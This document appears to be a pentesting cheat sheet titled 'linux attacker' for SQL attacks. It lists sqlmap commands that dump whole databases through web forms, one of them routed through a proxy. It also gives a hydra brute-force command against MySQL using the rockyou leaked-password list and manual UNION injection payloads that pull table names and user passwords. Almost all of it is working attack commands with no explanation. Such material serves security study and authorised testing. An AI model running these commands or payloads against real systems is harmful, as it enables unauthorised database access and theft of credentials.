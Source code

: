 # linux attacker

## check and dump information from sql injection

```bash
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
```

## sqlmap use specific parameter and proxy

```bash
sqlmap -u http://rhost?id= --proxy socks5://127.0.0.1:1080
```


## bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```

## dump big tables with each column on seperate line when connected with mysql client

Replace ; with \G

```sql
select * from users\G
```

## manual sql injection

```bash
' or 1=1 union all select 1,2,3,4,5,6,table_name,8 from information_schema.tables --
' or 1=1 union all select 1,2,3,4,5,6,column_name,8 from information_schema.columns where table_name='some_table' --
' union select concat(id, '--', pass, '--', name),1 from users --
```

### manual sql enumeration

```sql
show Grants;
show variables;
```
